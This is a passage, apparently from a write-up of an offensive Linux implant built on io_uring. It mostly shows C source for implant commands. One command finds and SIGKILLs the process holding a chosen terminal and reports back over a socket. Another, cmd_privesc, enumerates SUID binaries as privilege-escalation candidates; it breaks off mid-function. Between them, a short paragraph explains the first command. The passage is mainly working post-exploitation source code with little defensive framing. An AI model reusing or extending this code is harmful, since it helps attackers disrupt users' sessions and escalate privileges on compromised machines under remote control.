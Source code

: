 ```c
            snprintf(link_path, sizeof(link_path), "%s/%s", fd_path, fd_ent->d_name);
            link_len = readlink(link_path, link_target, sizeof(link_target) -1);
            if (link_len < 0) continue;
            link_target[link_len] = 0;

            if (strcmp(link_target, target_tty) == 0) {
                found_pid = (int)pid;
                break;
            }
        }
        closedir(fd_dir);
        if (found_pid) break;
    }
    closedir(proc);

    if (!found_pid) {
        snprintf(out, sizeof(out), "No process found using %s\n", target_tty);
        send_all(ring, sockfd, out, strlen(out));
        return;
    }

    if (kill(found_pid, SIGKILL) == 0) {
        snprintf(out, sizeof(out), "Killed process %d using %s\n", found_pid, target_tty);
    } else {
        snprintf(out, sizeof(out), "Failed to kill process %d: %s\n", found_pid, strerror(errno));
    }
    send_all(ring, sockfd, out, strlen(out));
}
```

This command searches for open sessions in /dev/pts (virtual terminals) and, if the user wishes, forcibly kills a process that is using one of these terminals. It first lists the active terminals, then searches /proc for file descriptors that point to the target terminal, and sends a SIGKILL to the process that is using it. All this by combining POSIX calls (like readlink) and asynchronous sending with send_all.

`cmd_privesc`:

```c
void cmd_privesc(struct io_uring *ring, int sockfd) {
    DIR *dir = opendir("/usr/bin");
    if (!dir) {
        send_all(ring, sockfd, "Failed to open /usr/bin\n", 23);
        return;
    }

    struct dirent *entry;
    char out[16384];
    size_t pos = 0;
    pos += snprintf(out + pos, sizeof(out) - pos, "Potential SUID binaries:\n");

    while ((entry = readdir(dir)) != NULL) {
        char path[512];
        snprintf(path, sizeof(path), "/usr/bin/%s", entry->d_name);

        struct io_uring_sqe *sqe = io_uring_get_sqe(ring);
        struct io_uring_cqe *cqe;
        struct statx stx;

        io_uring_prep_statx(sqe, AT_FDCWD, path, 0, STATX_ALL, &stx);
        io_uring_submit(ring);
        io_uring_wait_cqe(ring, &cqe);

        if (cqe->res == 0 && (stx.stx_mode & S_ISUID)) {
```